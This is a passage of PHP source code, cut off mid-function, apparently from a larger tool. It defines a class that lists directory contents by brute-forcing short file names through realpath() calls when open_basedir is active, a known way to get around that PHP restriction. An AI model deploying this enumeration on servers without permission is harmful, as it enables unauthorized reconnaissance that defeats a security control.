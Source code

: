 ```php
			$file_list[] = $f->__toString();
		}
		sort($file_list);
		return $file_list;
	}
}
 
class RealpathBruteForceDirectoryLister extends DirectoryLister {
	var $characters = 'abcdefghijklmnopqrstuvwxyz0123456789-_'
	, $extension = array()
	, $charactersLength = 38
	, $maxlength = 3
	, $fileList = array();
 
	function isAvailable() {
		return ini_get('open_basedir') && function_exists('realpath');
	}
	function getDescription() {
		return 'Directory listing via brute force searching with realpath function.';
	}
	function setCharacters($characters) {
		$this->characters = $characters;
		$this->charactersLength = count($characters);
	}
	function setExtension($extension) {
		$this->extension = $extension;
	}
	function setMaxlength($maxlength) {
		$this->maxlength = $maxlength;
	}
	function getFileList() {
		set_time_limit(0);
		set_error_handler(array(__CLASS__, 'handler'));
		$number_set = array();
		while (count($number_set = $this->nextCombination($number_set, 0)) <= $this->maxlength) {
			$this->searchFile($number_set);
		}
		sort($this->fileList);
		return $this->fileList;
	}
	function nextCombination($number_set, $length) {
		if (!isset($number_set[$length])) {
			$number_set[$length] = 0;
			return $number_set;
		}
		if ($number_set[$length] + 1 === $this->charactersLength) {
			$number_set[$length] = 0;
			$number_set = $this->nextCombination($number_set, $length + 1);
		} else {
			$number_set[$length]++;
		}
		return $number_set;
	}
	function searchFile($number_set) {
		$file_name = 'a';
		foreach ($number_set as $key => $value) {
			$file_name[$key] = $this->characters[$value];
		}
		// normal files
		realpath($this->getCurrentPath() . $file_name);
		// files with preceeding dot
		realpath($this->getCurrentPath() . '.' . $file_name);
		// files with extension
```